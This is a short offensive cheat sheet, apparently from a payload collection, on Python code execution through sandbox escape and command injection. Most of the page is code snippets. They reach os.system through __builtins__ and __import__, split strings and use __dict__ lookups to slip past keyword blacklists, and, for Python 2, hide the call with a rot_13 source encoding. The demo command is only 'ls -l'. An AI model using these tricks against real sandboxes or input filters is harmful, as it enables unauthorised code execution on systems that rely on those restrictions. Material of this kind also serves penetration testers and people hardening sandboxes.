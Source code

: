 # Python code execution (RCE)

> The following tricks can be used when performing Python sandbox escape or Python command injection

## Summary

- [Python sandbox escape](#python-sandbox-escape-trick)


## Python sandbox escape tricks

Import other module via `__builtins__` or `__builtin__` module and `__import__` function
```python
__builtins__.__import__('os').system('ls -l')
```

Access module's attribute using `__dict__` syntax, with this syntax we can bypass some keyword blacklist cases.
```python
__builtins__.__dict__['__import__']('os').system('ls -l')
__builtins__.__dict__['__impo' + 'rt__']('os').__dict__['sys'+'tem']('ls -l')
```

Notice that `__builtins__` dict (same as `__builtins__.__dict__`) can be accessed from any Python module
```python
import re
re.__builtins__['__import__']('os').system('ls -l')
```

RCE using encoding in python file (Python2 only)
```python
# coding: rot_13
# __import__('os').system('ls -l')
__vzcbeg__('os').flfgrz('ls -l')
```

